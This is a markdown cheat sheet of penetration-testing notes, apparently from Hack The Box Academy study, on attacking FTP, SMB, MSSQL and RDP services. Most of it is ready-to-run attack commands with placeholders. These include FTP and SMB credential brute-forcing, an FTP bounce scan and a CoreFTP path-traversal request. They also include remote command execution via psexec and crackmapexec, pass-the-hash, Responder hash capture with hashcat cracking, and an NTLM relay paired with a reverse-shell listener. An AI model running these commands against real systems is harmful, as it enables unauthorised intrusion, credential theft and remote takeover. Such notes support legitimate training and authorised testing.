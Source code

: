 # ATTACKING COMMON SERVICES  

## Attacking FTP

* Port : `21` 
* [FTP footprinting](../HackTheBox/Academy/Footprinting.md)
* Process
    ```bash
    # Process 

    # 1 - Enumeration + footprinting module ftp par
    nmap -sV -sC <IP> -p 21
    # scan
    sudo nmap --script-updatedb 
    find / -type f -name ftp* 2>/dev/null | grep scripts
    nmap -sV -sC -A --script
    # ftp-anon verify log of anonymous
    # ftp-syst display infos
    # script-trace



    # 2 - try anonymous login 
    # interaction as anonymous
    ftp <Target-IP> # username and password  : anonymous



    # 3 - if anonymous is disabled , try bruteforce
    medusa -u <UserName> -P <wordlist> -h <IP> -M ftp 
    # bruteforce alternative with hydra 
    hydra -l <username> -P <dico> ftp://<ftpAddress>

    # 4 - FTP bounce attack
    nmap -Pn -v -n -p80 -b <Username>:<Password>@<Exposed-Target> <Main-Target-Non-Exposed>



    # telecharger tous les fichiers disponible
    wget -m --no-passive ftp://<anonymous | Username >:< anonymous | password>@10.129.14.136/
    ```
* latest vulnerabilities
    * CoreFTP Exploitation ( Path transversal vulnerability)
        ```bash
        curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
        # creer whoops et met POC. à l'interieur
        ```
**Ressource**
[Tools and method to bruteforce ftp](https://null-byte.wonderhowto.com/how-to/brute-force-ftp-credentials-get-server-access-0208763/)
## Attacking SMB

* [SMB footprinting](../HackTheBox/Academy/Footprinting.md)

* Misconfigurations
    ```bash
    # scan nmap 
    sudo nmap <IP> -sV -sC -p139,445

    # 1 -  connect to a share
    smbclient -N -L //<Target-IP> --user=<UserName>%<Password>
    # 2 - Enumerate share with smbmap
    smbmap -H <Target-IP> # -r <ShareName> | --< download | upload > "<Share-File-Path>" -u <userName> -p '<Password>'
    # 3 - Domain enum
    rpcclient -U "%" <IP-Target>
    enumdomusers
    # 3 - Alternative
    ./enum4linux-ng.py <IP-Target> -A -C
    ```

- Protocol Specifics Attacks
    ```bash
     # bruteforce
     crackmapexec smb <Target-IP> -u <Wordlist-user> -p '<password>' --local-auth
     
     # RCE
     impacket-psexec <User>:'<Password>'@<Target-IP>
     # RCE with crackmapexec 
     crackmapexec smb <Target-IP> -u <User> -p '<Password>' -x '<whoami | powershell-cmd>' --exec-method smbexec

     #Enumerate logged user 
     crackmapexec smb <Target-IP> -u <User> -p '<Password>' --loggedon-users

     # extract hash from sam db 
     --sam

     # Pass-the-Hash (PtH) : authenticate with remote server via NTLM Hash
     crackmapexec smb <Target-IP> -u <User-Name> -H <HASH>
    ```

- Forced Authentication Attacks
    ```bash
    # Abuse smb
    Forced Authentication Attacks
    responder -I <interface name>

    #2 - copy hash from : /usr/share/responder/logs/

    #3 - Use hashcat 5600 to crack it 
    hashcat -m 5600 <Hash-File> < Wordlist | rockyou >


    # 3 - Crack alternative : impacket-ntlmrelayx
    cat /etc/responder/Responder.conf | grep 'SMB ='
    impacket-ntlmrelayx --no-http-server -smb2support -t <Target-IP>

    # 4 - revershell with https://www.revshells.com/ + Powershell #3
    impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c '<Powershell-CMD>'
    # in parallel on our marchine
    nc -lvnp 9001
    ```


* latest vulnerabilities
    * [SMBGhost (CVE-2020-0796)](https://www.exploit-db.com/exploits/48537)


## Attacking SQL DB
*  [SQL Basics](../HackTheBox/Academy/SQL%20basics.md)
* [ MSSQL footprinting](../HackTheBox/Academy/Footprinting.md)

* 
    ```bash
     # scan 1
     nmap -Pn -sV -sC -p1433 <IP>
     # scan 2
     sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>

     # connect to sqlserver alternative to other modules
     sqlcmd -S SRVMSSQL -U <Username> -P '<Password>' -y 30 -Y 30

     # alternative 2
     sqsh -S 10.129.203.7 -U <Username> -P '<Password>' -h
     sqsh -S 10.129.203.7 -U .\\<Username> -P '<Password>' -h

     # alternative mssql
     mssqlclient.py Administrator@<IP> -windows-auth

     
    ```

* latest vulnerabilities
    * MSSQL function xp_dirtree : we can intercept the hash with Wireshark of TCPDump... and localy crack it to gain admin privilege


## Attacking RDP

* latest vulnerabilities : 
    * [CVE-2019-0708](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/) 
        * ` Bluekeep ` is  : User-After-Free vulnerability `risk blue screen prevent client during pentest`
        * [Article](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/)
    

###### SMB
```bash
# connect to share in windows cmd
net use n: \\<IP>\<ShareName> /user:<Username> <Password>
dir \\<IP>\<ShareName>\
# with powershell with credentials
Get-ChildItem \\<IP>\<ShareName>\
$username = '<Username>'
$password = '<Password>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<ShareName>" -PSProvider "FileSystem"  -Credential $cred

# count number of file powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
# search file powershell
Get-ChildItem -Recurse -Path <DiskPart | N>:\ -Include *<File-Name-Part>* -File

# with windows cmd
dir <Drive-To-search | n>: /a-d /s /b | find /c ":\ "  # ":\" 
# search file windows cmd
dir <Drive-To-search> | n:>\*<File-Name-Part>* /s /b

# search specific word windows cmd
findstr /s /i <Word> <Drive--To-Search | n>:\*.*
# search specific word windows powershell
Get-ChildItem -Recurse -Path <Drive-to-search | N>:\ | Select-String "<Word>" -List


#  mount smb in linux
sudo mkdir /mnt/<ShareName>
sudo apt install cifs-utils
sudo mount -t cifs -o username=<Username>,password=<Password>,domain=. //<IP>/<ShareName> /mnt<ShareName>
# mount with credential file
mount -t cifs //192.168.220.129/<ShareName> /mnt/<ShareName> -o credentials=</path/credentialfile>

#credential file format .(txt)
#username=plaintext
#password=Password123
#domain=.

# search in the share cred files
grep -rn <localSharePath> -ie cred
# search in share a file 
find <localSharePath> -name *<FileNamePart>*
```

###### 

```bash
# install evolution
sudo apt-get install evolution
# if error occur
export WEBKIT_FORCE_SANDBOX=0 && evolution.


```
